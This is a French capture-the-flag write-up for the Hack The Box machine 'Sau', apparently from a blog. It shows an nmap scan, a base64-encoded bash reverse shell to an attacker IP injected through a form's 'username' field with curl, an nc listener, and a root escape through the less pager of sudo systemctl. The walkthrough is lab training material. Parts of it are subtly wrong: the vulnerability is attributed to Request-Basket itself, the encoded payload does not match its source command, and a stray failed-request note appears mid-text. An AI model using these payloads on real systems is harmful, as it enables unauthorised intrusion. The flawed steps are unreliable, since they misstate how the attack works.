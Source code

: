 ```yaml
---
title: 'SAU - Hack the box'
description: 'Machine SAU de HTB'
pubDate: 'Aug 08 2025'
heroImage: '../../assets/sau.jpg'
---
```


# Reconnaissance

## Scan Nmap
```bash
nmap -sV -p- 10.129.225.56
```
> Un port inattendu est découvert : **55555/tcp**.

---

# Exploitation Web

## 1. Identification du service
En visitant `http://10.129.225.56:55555/guum71j`, on tombe sur une interface **Request-Basket** (outil de collecte de requêtes HTTP).  
Cette version est vulnérable à une injection de commande via le champ `username` d’un formulaire POST.

> ⚠️ *Analyse réseau : la requête vers cette URL a échoué (timeout ou blocage). Vérifiez que l’adresse est correcte et ré-essayez si vous souhaitez un dump détaillé de la page.*

## 2. Préparation du reverse-shell
Payload Bash :
```bash
bash -i >& /dev/tcp/10.10.14.104/9001 0>&1
```
Encodage en Base64 (sans caractère `+`) :
```bash
echo -n "bash -i >& /dev/tcp/10.10.14.104/9001 0>&1" | base64 -w0
# Résultat :
YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjEwNC85MDAxICAwPiYx
```

## 3. Lancement du listener & exploitation
Sur la machine attaquante :
```bash
nc -lnvp 9001
```
Depuis la cible (via curl) :
```bash
curl http://10.129.225.56:55555/guum71j \
  -d 'username=;`echo YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjEwNC85MDAxICAwPiYx | base64 -d | bash`'
```
> Shell interactif obtenu.

---

# Élévation de privilèges

## 1. Vérification des droits sudo
```bash
sudo -l
```
Sortie :
```txt
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
La version SystemD 245 est obsolète et connue pour autoriser l’évasion via less.

```bash
sudo /usr/bin/systemctl status trail.service
```
Dans le pager `less` qui s’ouvre :
1. Tapez `!/bin/bash` puis Entrée.
2. Vous obtenez un shell root.

Vérification :
```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```

---

# Résumé
1. Port 55555 → Request-Basket vulnérable.  
2. Injection de commande → shell en tant qu’utilisateur courant.  
3. `sudo systemctl status trail.service` → évasion via `less` → **root**.